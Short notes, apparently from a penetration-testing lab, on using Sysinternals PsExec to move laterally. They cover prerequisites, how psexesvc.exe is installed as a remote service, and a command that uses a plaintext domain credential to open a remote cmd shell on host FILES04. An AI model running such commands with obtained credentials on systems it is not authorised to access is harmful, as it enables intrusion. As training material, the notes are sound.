 # Psexec

## Requisites

* User that authenticates to the target machine needs to be part of the Administrators local group
* _ADMIN$_ share must be available (by default on new windows server)
* File and Printer Sharing has to be turned on (by default on new windows server)

## What Psexec does

To execute the command remotely, PsExec performs the following tasks:

* Writes **psexesvc.exe** into the **C:\Windows** directory
* Creates and spawns a service on the remote host
* Runs the requested program/command as a child process of **psexesvc.exe**

## Steps

1. Transfer Psexec on the machine from which we want to use psexec (form SysInternalSuite)
2. Execute Psexec and validate interactive shell on target (here the target is FILES04

```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```
